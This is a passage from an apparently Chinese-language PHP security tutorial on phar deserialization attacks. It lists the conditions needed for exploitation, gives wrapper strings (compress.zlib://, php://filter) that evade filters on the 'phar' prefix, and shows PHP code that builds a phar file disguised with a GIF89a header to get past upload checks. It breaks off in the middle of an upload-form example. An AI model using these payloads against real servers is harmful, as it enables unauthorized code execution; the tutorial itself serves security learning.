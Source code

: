 ### 5、漏洞利用条件

```php
phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
```

### 6、绕过方式

#### **6.1. 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过**

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

#### **6.2. 当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。**

```php
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### **6.3. GIF格式验证可以通过在文件头部添加GIF89a绕过**

在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是**__HALT_COMPILER();?>**这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以**通过x**采用这种方法能绕过很大一部分上传检测。  

```php
<?php
class TestObject {
}
    $phar = new Phar('img.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
    $phar ->addFromString('test.txt','test');  //添加要压缩的文件
    $object = new TestObject();
    $object -> data = 'uf9n1x';
    $phar -> setMetadata($object);  //将自定义meta-data存入manifest
    $phar -> stopBuffering();
?>
```

 采用这种方法能绕过很大一部分上传检测。  

### 7、实战简单利用

```php
<!DOCTYPE html>
<html>
  <head>
    <title>upload file</title>
  </head>
  <body>
    <form action="./04-upload.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file" />
      <input type="submit" name="Upload" />
    </form>
  </body>
</html>
    
    
    
<?php
```